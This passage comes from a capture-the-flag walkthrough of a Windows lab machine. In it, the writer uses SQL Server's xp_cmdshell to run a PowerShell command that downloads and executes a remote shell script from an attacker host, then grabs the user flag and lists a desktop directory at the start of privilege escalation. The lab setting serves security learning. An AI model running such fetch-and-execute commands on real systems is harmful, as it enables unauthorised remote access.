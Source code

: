 Then download and execute the powershell script in SQL.

```text
1> xp_cmdshell "powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.45:5555/shell.ps1')"
2> go
```

We get a shell!

![](../images/max/946/1*Tda1YBwGnoJR0XD2ugarwQ.png)

Grab the _user.txt_ flag.

![](../images/max/695/1*tTyPZ6klXjW2tg1d08Y4mw.png)

## Privilege Escalation <a id="3c7d"></a>

View the content of Sarah’s desktop directory.

```text
PS C:\Users\Sarah\Desktop> dirDirectory: C:\Users\Sarah\DesktopMode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---       01/10/2017     22:32            916 browser.bat                                                           
-a----       17/09/2017     21:50            845 FTP.lnk                                                               
-a----       23/09/2017     21:11            297 note to tim (draft).txt                                               
-a----       19/10/2017     21:49          17152 SPBestWarmUp.ps1                                                      
-a----       19/10/2017     22:48          11010 SPBestWarmUp.xml                                                      
-a----       17/09/2017     21:48           1914 SQLCMD.lnk                                                            
-a----       21/09/2017     00:46            129 todo.txt                                                              
-ar---       31/08/2017     02:04             32 user.txt                                                              
-a----       17/09/2017     21:49            936 zz_Migration.lnk
```
